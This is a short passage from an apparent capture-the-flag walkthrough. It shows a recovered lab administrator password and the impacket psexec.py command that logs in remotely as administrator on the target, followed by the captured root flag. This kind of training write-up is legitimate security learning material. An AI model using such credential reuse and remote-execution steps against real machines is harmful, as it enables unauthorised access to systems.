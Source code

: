 
user:administrator MEGACORP_4dm1n!!



Now we need a tool to log in as Administrator on our target PC and we cannot do it directly in our Windows Powershell as we do in the Linux system. There is a tool from our impacket named **psexec.py** which will help us.

- Kill the PowerShell and mssqlclient on our machine.
- Let’s use our tool:

python3 /opt/impacket/examples/psexec.py administrator@[Target_IP]



and here is the root flag

b91ccec3305e98240082d4474b848528

